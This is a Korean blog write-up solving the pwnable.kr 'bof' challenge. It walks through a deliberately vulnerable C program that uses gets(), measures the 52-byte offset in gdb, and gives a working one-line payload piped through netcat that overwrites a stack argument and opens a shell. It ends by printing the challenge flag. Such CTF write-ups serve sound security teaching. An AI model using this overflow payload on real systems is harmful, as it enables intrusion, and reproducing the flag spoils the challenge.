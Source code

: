 ```yaml
---
title: "[Pwnable.kr] Toddler's Bottle - bof 문제풀이"
date: 2018-02-19
draft: false
category: [wargame]
subcategories: [pwnable.kr]
tags: [Write-up, Pwnable.kr]
---
```


`Pwnable.kr` 문제에서 3번째 문제인 `bof` 문제를 풀어보았다.
이번 문제는 로컬 문제가 아니라 리모트로 접속 해 풀어야 하는 문제이다.  

<!--more-->

때문에 `bof` 문제에서는 `bof` 실행파일과 `bof.c`라는 소스코드를 다운로드 할 수 있는 링크와 리모트로 접속할 수 있는 정보를 제공해준다.  

* [http://pwnable.kr/bin/bof](http://pwnable.kr/bin/bof)
* [http://pwnable.kr/bin/bof.c](http://pwnable.kr/bin/bof.c)
* nc pwnable.kr 9000

`bof.c`의 소스코드를 확인해 보면 아래와 같다.  

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

`main` 함수에서는 `0xdeadbeef`를 인자로 해 `func` 함수를 호출한다.
`func` 함수에서는 먼저 `32 byte` 의 char 형 변수인 `overflowme`를 선언하고, 해당 변수에 `gets` 함수를 통해 입력을 받아 저장한다.  

* gets 함수
	* 함수 원형 : gets(char * str)
	* 표준 입력에서 문자열을 가져온다.
	* 이 때, 개행 문자(\n)이나 파일 끝(EOF)를 만나기 전까지 가져오는데, 크기를 따로 검사하지 않기 때문에 `overflow` 가 일어날 수 있다.

이 후, 만약 `func` 함수에 인자로 넘어 온 `key`의 값이 `0xcafebabe`와 같다면 `system` 함수를 통해 `/bin/sh`를 실행시켜 준다.
`func` 함수에서 `gets` 함수를 통해 문자열을 입력 받는데, 문자열의 길이를 검사하지 않는다.
때문에 `overflow`를 발생시킬 수 있다.  

![](/images/pwnable.kr/bof/bof_01.PNG)  

위의 그림은 `func` 함수를 호출했을 때의 `stack` 모습니다.
`func` 함수를 호출하면 스택에는 func 함수의 인자인 `key(0xdeadbeef)` 스택에 저장하고, `return address`와 `SFP`를 차례로 스택에 저장한 후, func 함수에서 사용 할 지역 변수인 `overflowme`를 위한 공간을 할당한다.
이 때, `overflowme`는 `32 byte`의 공간을 할당받았지만 `gets` 함수에서 문자열의 길이를 확인하지 않아 아래와 같이 `overflow`가 발생할 수 있다.  

![](/images/pwnable.kr/bof/bof_02.PNG)  

`overflowmw`에 충분한 값을 입력한 후, func 함수의 인자인 `key`의 값이 저장된 위치에 `0xcafebabe`를 덮어 쓴다면 `system("/bin/sh")`가 실행되며 쉘을 얻을 수 있다.
문제를 풀기 위해선 `overflowme`와 `key` 사이의 거리를 알아야 한다.
이를 알기 위해 `gdb`를 사용했다.  

![](/images/pwnable.kr/bof/bof_03.PNG)

먼저 `key`의 값을 비교하는 부분인 `0x56555654 <+40>`에 `break point`를 걸고 `32 byte` 만큼을 입력 해 보았다.  

![](/images/pwnable.kr/bof/bof_04.PNG)

실행 후 확인해 본 결과 아래와 같았다.  

![](/images/pwnable.kr/bof/bof_05.PNG)

`0xffffd5cc` 부터 `overflowme`가 시작되며, `0xffffd600` 위치에 `key`의 값인 `0xdeadbeef`가 저장되어 있는 것을 알 수 있다.
두 변수 간의 거리는 다음과 같다.  

* 0xffffd600 - 0xffffd5cc = 0x34 (= 52)

즉, 두 변수는 `52 byte` 만큼 떨어져 있다.
따라서 쉘을 얻기 위해서는 `52 byte` 만큼의 값을 입력하고, 이 후 `0xcafebabe`를 입력 해 주면 `overflow`가 발생하며 `func`의 인자인 `key`의 값을 덮어쓸 수 있을 것이다.
이를 실행해본 결과 다음과 같이 쉘을 얻을 수 있었다.
파일을 확인해 본 결과 `flag` 파일이 있어, 이를 실행했더니 `flag`를 얻을 수 있었다.  

![](/images/pwnable.kr/bof/bof_06.PNG)

```bash
ccoma@vultr:~$ (python -c 'print "a"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

--- 

```plain
FLAG : daddy, I just pwned a buFFer :)
```
